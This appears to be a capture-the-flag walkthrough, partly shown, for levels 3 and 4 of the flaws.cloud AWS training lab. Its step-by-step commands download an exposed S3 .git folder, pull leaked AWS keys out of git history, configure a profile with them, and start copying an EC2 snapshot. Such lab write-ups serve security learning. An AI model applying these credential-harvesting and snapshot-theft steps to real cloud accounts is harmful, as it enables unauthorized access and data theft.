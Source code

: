 ![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/bc2e0600-2dfe-47d3-859f-cf256cac555d)

---

<h3>Level 3 target: http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud</h3>

Step 1: Run nslookup on level3-9afd3927f195e10225021a578e6f78df.flaws.cloud <br>
This returns 52.92.242.211

Step 2: Run nlookup on 52.92.242.211 <br>
This returns s3-website-us-west-2.amazonaws.com

Step 3: Now that we know that our target is a s3 bucket we can test the misconfigurations in level 1 and level 2.  Test for anonymous access to this bucket by running: <br> aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud <br>
This returns a listing of the s3 bucket:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/ba82ba6c-5bb6-48ec-824f-c1231691c80d)

Step 4: Download the .git repository to our terminal:  <br>
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git . --no-sign-request 

Step 5: Run ‘git log’ and then ‘git diff’ on the 2 logs:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/3742dc6d-d963-40f5-ad3c-83d5ce580faf)

This shows an aws access key and secret access key (this is like a username and password).  

Step 6: Run the command: aws configure --profile testing2 <br>
When prompted, enter the access keys.

Step 7: Check if this profile has any s3 buckets: aws --profile testing2 s3 ls

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/09433e45-0cd0-41cf-985e-464fbff17365)

This returned a number of s3 buckets.  

Step 8: Navigate to level 4 by visiting http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud 

---

<h3>Level 4 target: http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud </h3>

Step 1: Navigating to http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/ requires a username and password.  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/b1c2575d-3b3b-4bee-8b14-2c88b39612e6)

Since we are told that the target is an ec2 instance, let’s check if it has any snapshots: aws --profile testing2 ec2 describe-snapshots <br>
This returned a lot of snapshots, so pipe the output into a file.  

Step 2:  Check for backups with: grep -i backup file.txt <br>
That should find a snapshot of "snap-0b49342abd1bdcb89" (unfortunately there is currently an issue where this snapshot is not in the output to the describe-snapshots command).

Step 3: Mount this snapshot on our own ec2 instance to see the snapshot data.  To do this, first create a new volume on our own user (to do this we can use the aws free account we created earlier): aws --profile testing ec2 create-volume --snapshot-id snap-0b49342abd1bdcb89 --availability-zone us-west-2a --region us-west-2  

